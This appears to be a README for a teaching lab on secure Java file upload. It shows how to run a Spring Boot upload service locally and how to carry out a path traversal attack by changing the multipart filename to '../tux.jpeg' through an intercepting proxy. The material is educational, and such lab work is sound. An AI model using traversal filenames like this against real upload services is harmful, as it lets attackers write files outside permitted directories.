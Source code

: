 # File Upload

## Setup 

We can start the service as a separate process:
```
$ mvn spring-boot:run
```

## Attacking the File Upload

To upload a file we can use the following `curl` statement:

```
$ curl -ki --proxy http://localhost:8010 -F "file=@./images/tux.jpeg" https://localhost:8443/upload
```

### Path Traversal Attack
To perform the attack, use the interception proxy and change
the filename:
```
Content-Disposition: form-data; name="file"; filename="../tux.jpeg"
Content-Type: image/jpeg
```
The file is saved parallel to the `upload/` folder.


## References

* Jim Manico, August Detlefsen. **Iron-Clad Java: Build Secure Web Applications**. Oracle Press, 2015
    * Chapter 8: Safe File Upload and File I/O


*Egon Teiniker, 2016-2024, GPL v3.0*
